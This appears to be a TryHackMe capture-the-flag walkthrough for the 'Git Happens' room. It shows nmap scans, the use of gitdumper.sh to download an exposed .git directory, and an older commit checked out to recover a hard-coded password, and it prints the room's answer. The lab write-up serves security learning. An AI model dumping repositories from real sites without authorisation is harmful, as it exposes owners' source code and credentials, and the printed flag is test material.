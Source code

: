 # Git Happens

## Overview

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Room link: https://tryhackme.com/room/githappens
Difficulty: **Easy**
## Walkthrough

Scanning all ports only shows port 80 is open (HTTP):

```console
$ nmap -p- -T4 VICTIM_IP -oN scans/initial.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:21 GMT
Nmap scan report for VICTIM_IP
Host is up (0.040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 30.38 seconds
```

Running a full scan against this port confirms it is running Ubuntu with version `1.14.0` of Nginx and finds a Git repository at `/.git/`.

```console
$ nmap -p 80 -A -T4 VICTIM_IP -oN scans/openports.nmap   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:22 GMT
Nmap scan report for VICTIM_IP
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   VICTIM_IP:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
|_http-server-header: nginx/1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.9.0.1
2   31.52 ms VICTIM_IP

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
```

Navigating to the website shows a login form:

![GitHappens - LoginForm](tryhackme/images/githappens_loginform.png)

From our Nmap scan, recall that there is a `/.git/` directory which holds the structure of a GitHub repository:

![GitHappens - .git directory](tryhackme/images/githappens_git_directory.png)

We can use [gitdumper.sh](https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh) from [GitTools](https://github.com/internetwache/GitTools) to dump the Git repository from the site:

```console
$ wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
$ chmod +x gitdumper.sh
$ ./gitdumper.sh http://VICTIM_IP/.git/ .
```

![GitHappens - gitdumper.sh](tryhackme/images/githappens_gitdumper.png)

We now have a `.git/` folder downloaded to our attacker machine. With this, we can run `git log` to show the commit logs. From the log, we can see a security change was made to obfuscate the code at commit `e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`.

```console
$ git log
```

![GitHappens - Commit Log](tryhackme/images/githappens_commitlog.png)

As such, we can run `git checkout` to load the previous commit `395e087334d613d5e423cdf8f7be27196a360459` and view the deobfuscated code.

```console
$ git checkout 395e087334d613d5e423cdf8f7be27196a360459
```

We can view the `index.html` file to view the **Super Secret Password**:

![GitHappens - Admin Credentials](tryhackme/images/githappens_admin_credentials.png)

-----

1. Find the Super Secret Password.

```
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```